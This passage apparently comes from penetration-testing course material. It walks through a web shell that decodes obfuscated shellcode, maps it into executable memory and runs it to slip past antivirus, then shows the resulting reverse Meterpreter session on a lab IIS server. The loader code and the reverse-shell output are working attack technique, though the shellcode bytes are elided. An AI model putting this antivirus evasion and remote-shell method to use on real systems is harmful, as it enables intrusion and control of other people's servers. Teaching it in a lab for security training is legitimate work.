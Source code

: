 > Listing 11 - C# code to encrypt the shellcode

Now we can execute the encryption code and copy the encrypted shellcode into the web shell. We'll also add the corresponding decrypting routine as shown in Listing 12.

```
...
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
if(mem == null)
{
    return;
}

byte[] vL8fwOy_ = new byte[691] { 0x01, 0x4d, 0x88, ... };


for(int i = 0; i < vL8fwOy_.Length; i++)
{
    vL8fwOy_[i] = (byte)(((uint)vL8fwOy_[i] - 5) & 0xFF);
}

IntPtr uPR9CPj_b7 = VirtualAlloc(IntPtr.Zero,(UIntPtr)vL8fwOy_.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
System.Runtime.InteropServices.Marshal.Copy(vL8fwOy_,0,uPR9CPj_b7,vL8fwOy_.Length);
IntPtr graLqi = IntPtr.Zero;
IntPtr vE3FMd = CreateThread(IntPtr.Zero,UIntPtr.Zero,uPR9CPj_b7,IntPtr.Zero,0,ref graLqi);
...
```

> Listing 12 - Decrypting routine is inserted into the code

With all the antivirus bypass code implemented in the web shell, we can upload it through the web form and execute it.

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.132; (UUID: ftkiispt) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.132:50098)

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool

meterpreter > sysinfo
Computer        : WEB01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EVIL
Logged On Users : 7
Meterpreter     : x64/windows
```
